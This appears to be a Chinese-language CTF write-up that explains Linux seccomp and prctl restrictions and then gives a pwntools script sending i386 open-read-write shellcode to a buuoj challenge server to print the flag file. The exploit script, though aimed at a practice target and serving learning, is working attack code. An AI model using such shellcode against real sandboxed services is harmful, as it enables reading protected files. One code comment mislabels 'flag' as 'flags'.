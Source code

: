 ![image-20220325185252270](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325185252270.png)

seccomp 是 secure computing 的缩写，其是 Linux kernel 从2.6.23版本引入的一种简洁的 sandboxing 机制。在 Linux 系统里，大量的系统调用（system call）直接暴露给用户态程序。但是，并不是所有的系统调用都被需要，而且不安全的代码滥用系统调用会对系统造成安全威胁。seccomp安全机制能使一个进程进入到一种“安全”运行模式，该模式下的进程只能调用4种系统调用（system call），即 read(), write(), exit() 和 sigreturn()，否则进程便会被终止。

![image-20220325185330622](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325185330622.png)

一般有prctl()函数都是禁用了一些系统调用

```
第一次调用prctl函数 ————禁止提权
第二次调用prctl函数 ————限制能执行的系统调用只有open，write，exit
```

main函数如下

![image-20220325185513556](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325185513556.png)

一步一步编写代码

```python
from pwn import *
from LibcSearcher import *

context(os = "linux", arch = "i386", log_level= "debug")
io = remote("node4.buuoj.cn", 29571)

shellcode = """
            
			push 0x0  			
			push 0x67616c66		#'flags'
			mov ebx,esp			
			xor ecx,ecx			
			xor edx,edx			
			mov eax,0x5			#调用号(open)
			int 0x80			
			
			mov eax,0x3;        #调用号(read)
			mov ecx,ebx;	
			mov ebx,0x3;	
			mov edx,0x100;	
			int 0x80;
			
			mov eax,0x4;	     #调用号(write)
			mov ebx,0x1;	
			int 0x80;

"""

io.sendlineafter(b'shellcode:', asm(shellcode))
io.interactive()
```
